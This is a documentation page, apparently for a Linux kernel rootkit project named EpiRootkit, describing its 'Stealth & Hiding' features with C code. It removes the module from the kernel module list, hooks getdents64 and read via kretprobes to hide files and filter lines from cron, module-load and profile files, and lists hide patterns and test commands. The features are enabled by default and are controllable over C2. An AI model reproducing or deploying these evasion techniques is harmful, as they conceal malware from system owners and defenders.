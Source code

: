 ```yaml
---
title: "Stealth & Hiding"
description: "Module hiding, file hiding and line hiding capabilities"
icon: "visibility_off"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 512
---
```


# Stealth & Hiding

Three stealth mechanisms to hide the rootkit from system detection using kernel hooking techniques.

## Module Hiding

Hide the rootkit module from `lsmod` and `/proc/modules` by removing it from the kernel's module list.

### Implementation
```c
int hide_module(void)
{
    if (stealth_state.module_hidden) return 0;

    stealth_state.prev_module_entry = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    stealth_state.module_hidden = true;
    return 0;
}
```

**How it works**: Removes module from kernel's linked list using `list_del()`.

## File Hiding

Hide files with specific prefixes from directory listings by hooking the `getdents64` syscall.

### Implementation
```c
stealth_state.getdents_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_getdents64",
    .handler = getdents64_ret_handler,
    .entry_handler = getdents64_entry_handler,
    .maxactive = 20
};
```

**How it works**: Intercepts directory reads and filters out files matching hidden prefixes.

## Line Hiding

Hide rootkit-related lines from file content when users read system files.

### Implementation
```c
stealth_state.read_probe = (struct kretprobe) {
    .kp.symbol_name = "ksys_read",
    .handler = read_ret_handler,
    .entry_handler = read_entry_handler,
    .maxactive = 20
};
```

**How it works**: Hooks `ksys_read` syscall and filters lines containing rootkit patterns.

### Target Patterns
```c
static const char * const line_hide_patterns[] = {
    "epirootkit",
    "jules_est_bo_",
    "EpiRootkit",
    "modprobe epirootkit",
    "insmod"
};
```

### Target Directories
- `/etc/cron.d/`
- `/etc/modules-load.d/`
- `/etc/profile.d/`
- `/proc/modules`

## Usage

### WebUI Control
**[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)** provides:
- **Module Hiding** toggle with real-time status
- **File Hiding** toggle with real-time status  
- **Line Hiding** toggle with real-time status
- Visual indicators for current state

### Testing File Hiding
```bash
# Create test files
touch /tmp/epirootkit_test /tmp/normal_file

# Check visibility (file hiding enabled)
ls /tmp/
# Shows: normal_file (epirootkit_test hidden)
```

### Testing Line Hiding
```bash
# Create test file with rootkit patterns
echo -e "normal line\nepirootkit module\nother line" > /etc/cron.d/test

# Read file (line hiding enabled)
cat /etc/cron.d/test
# Shows: normal line
#         other line
```

All stealth features are **enabled by default** and can be toggled dynamically via WebUI or C2 commands.